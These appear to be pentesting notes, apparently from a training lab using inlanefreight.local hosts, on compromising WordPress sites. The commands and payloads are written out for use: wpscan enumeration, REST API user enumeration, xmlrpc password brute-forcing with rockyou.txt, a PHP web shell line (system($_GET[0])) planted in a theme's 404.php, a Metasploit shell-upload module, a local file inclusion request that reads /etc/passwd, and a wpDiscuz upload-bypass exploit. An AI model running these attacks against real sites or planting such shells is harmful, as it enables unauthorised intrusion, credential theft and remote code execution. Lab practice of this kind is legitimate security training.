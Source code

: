 ### Footprinting + Enumeration
```bash
wpscan --url $url 
wpscan --url $url -e vp     <- Vulnerable plugins
wpscan --url $url -e cb     <- Config backups
wpscan --url $url -e p --plugins-detection aggressive
```

```bash
curl -s http://blog.inlanefreight.local | grep WordPress
```

```bash
curl http://inlanefreight.local/robots.txt

User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Disallow: /wp-content/uploads/wpforms/

Sitemap: https://blog.inlanefreight.local/wp-sitemap.xml
```
##### Themes + Plugins
WordPress stores its plugins in the `wp-content/plugins` directory. This folder is helpful to enumerate vulnerable plugins. Themes are stored in the `wp-content/themes` directory. These files should be carefully enumerated as they may lead to RCE.

```bash
curl -s http://blog.inlanefreight.local/ | grep themes
curl -s http://blog.inlanefreight.local/ | grep plugins
```
Visiting `/wp-content/plugins/realplugin` can uncover `readme`'s with the version

##### User enumeration
We can discover users by attempting to login via `/wp-admin` and the error messages they produce. [Good resource](https://gosecure.ai/blog/2021/03/16/6-ways-to-enumerate-wordpress-users/)
```bash
curl http://blog.inlanefreight.local/?rest_route=/wp/v2/users
```

### Exploitation
#### **Login bruteforcing**
Two methods, `xmlrpc`(faster api) and the wp-login.
```bash
wpscan --password-attack xmlrpc -t 20 -U john -P ~/rockyou.txt --url http://blog.inlanefreight.local
```

#### RCE
This is possible with Administrative access to the admin panel. This can be done by adding a single line of PHP code within an unused theme then calling upon it.
This should be on an uncommon page like `404.php`
```php
system($_GET[0]);
```

```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```
This can also be done with Metasploit (`rhost` and `vhost`must be set)
```bash
use exploit/unix/webapp/wp_admin_shell_upload 
```

#### Vulnerable Plugins
##### mail-masta
This plugin suffers from two vulnerabilities [unauthenticated SQL injection](https://www.exploit-db.com/exploits/41438) and a [Local File Inclusion](https://www.exploit-db.com/exploits/50226).
```bash
curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
##### wpDiscuz
Based on the version number (7.0.4), this [exploit](https://www.exploit-db.com/exploits/49967) has a pretty good shot of getting us command execution. The crux of the vulnerability is a file upload bypass. 
```bash
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id
```

